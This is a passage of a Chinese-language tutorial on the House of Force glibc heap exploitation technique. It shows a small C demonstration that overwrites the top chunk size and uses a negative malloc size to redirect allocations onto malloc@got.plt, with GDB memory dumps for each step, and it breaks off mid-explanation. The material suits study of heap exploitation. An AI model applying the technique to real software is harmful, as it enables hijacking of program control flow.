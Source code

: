 **与此同时，我们需要注意的是，topchunk的size也会更新，其更新的方法如下**

```c
victim = av->top;
size   = chunksize(victim);
remainder_size = size - nb;
set_head(remainder, remainder_size | PREV_INUSE);
```

所以，如果我们想要下次在指定位置分配大小为 x 的 chunk，我们需要确保 remainder_size 不小于 x+ MINSIZE。

## 简单示例1
在学习完 HOF 的原理之后，我们这里通过一个示例来说明 HOF 的利用，这个例子的目标是通过HOF来篡改 `malloc@got.plt` 实现劫持程序流程

```
int main()
{
    long *ptr,*ptr2;
    ptr=malloc(0x10);
    ptr=(long *)(((long)ptr)+24);
    *ptr=-1;        // <=== 这里把top chunk的size域改为0xffffffffffffffff
    malloc(-4120);  // <=== 减小top chunk指针
    malloc(0x10);   // <=== 分配块实现任意地址写
}
```

首先，我们分配一个 0x10 字节大小的块

```
0x602000:	0x0000000000000000	0x0000000000000021 <=== ptr
0x602010:	0x0000000000000000	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000020fe1 <=== top chunk
0x602030:	0x0000000000000000	0x0000000000000000
```
之后把 top chunk 的 size 改为 0xffffffffffffffff，在真正的题目中，这一步可以通过堆溢出等漏洞来实现。
因为 -1 在补码中是以 0xffffffffffffffff 表示的，所以我们直接赋值 -1 就可以。

```
0x602000:	0x0000000000000000	0x0000000000000021 <=== ptr
0x602010:	0x0000000000000000	0x0000000000000000
0x602020:	0x0000000000000000	0xffffffffffffffff <=== top chunk size域被更改
0x602030:	0x0000000000000000	0x0000000000000000
```
注意此时的 top chunk 位置，当我们进行下一次分配的时候就会更改 top chunk 的位置到我们想要的地方

```
0x7ffff7dd1b20 <main_arena>:	0x0000000100000000	0x0000000000000000
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b50 <main_arena+48>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b60 <main_arena+64>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b70 <main_arena+80>:	0x0000000000000000	0x0000000000602020 <=== top chunk此时一切正常
0x7ffff7dd1b80 <main_arena+96>:	0x0000000000000000	0x00007ffff7dd1b78
```
接下来我们执行`malloc(-4120);`，-4120是怎么得出的呢？
首先，我们需要明确要写入的目的地址，这里我编译程序后，0x601020 是 `malloc@got.plt` 的地址

